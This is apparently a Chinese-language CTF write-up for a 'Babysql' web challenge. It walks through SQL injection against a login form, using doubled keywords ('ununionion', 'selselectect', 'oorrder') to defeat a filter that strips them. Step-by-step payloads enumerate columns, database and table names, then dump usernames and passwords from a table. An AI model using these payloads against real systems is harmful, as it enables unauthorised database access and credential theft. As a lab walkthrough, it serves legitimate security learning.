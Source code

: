 # Babysql
## 考察知识点：
### 1.联合注入
### 2.双写绕过

## 首先fuzz一下，看看过滤了什么：

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/64BD0B3B46E64513830BE3100392E912Babysql1.png)

发现输入的select...提示input your username and password,猜测被替换为空

### 尝试使用双写，绕过：
payload:

`?username=admin&password=admin'order by 4--+`

发现or,by被过滤，

`?username=admin&password=admin'oorrder bbyy 4--+`

### 报错，说明存在三个字段

`?username=admin&password='ununionion%20selselectect%20null,database(),user()--+`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/2488B416C8CB4B3BBBB9982872DC094EBabysql2.png)

### 确定注入点以及回显点

已经知道数据库名了，直接构造查询表名的payload:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/CCF4AE5CEC2240C9A43DFA2793614D6EBabysql3.png)

此处注意重写where和or

### 构造payload查询b4bsql表内容:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(username,passwoorrd)%20frfromom%20b4bsql--+`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/A9EF797965F04F3DB041AB7B5712D66FBabysql4.png)

